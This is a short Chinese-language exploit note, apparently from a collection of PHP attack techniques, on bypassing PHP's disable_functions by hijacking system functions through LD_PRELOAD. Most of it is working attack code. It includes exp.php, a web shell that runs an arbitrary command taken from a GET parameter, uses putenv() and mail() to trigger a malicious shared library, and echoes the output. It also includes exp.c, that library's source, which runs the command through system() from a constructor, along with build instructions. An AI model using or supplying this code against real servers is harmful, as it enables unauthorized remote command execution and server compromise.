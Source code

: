 ## 劫持系统函数
（PHP 支持putenv()、mail() 即可，甚至无需安装 sendmail）
参考
	- https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD?files=1&tdsourcetag=s_pcqq_aiomsg

利用环境变量LD_PRELOAD劫持系统函数，让外部程序加载恶意的.so文件，达到执行系统命令的效果。

exp.php
```php
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "", "");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```
exp.c
```c
//用命令 gcc -shared -fPIC bypass_disablefunc.c -o bypass_disablefunc_x64.so 将 bypass_disablefunc.c 编译而来。 若目标为 x86 架构，需要加上 -m32 选项重新编译
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>


extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```


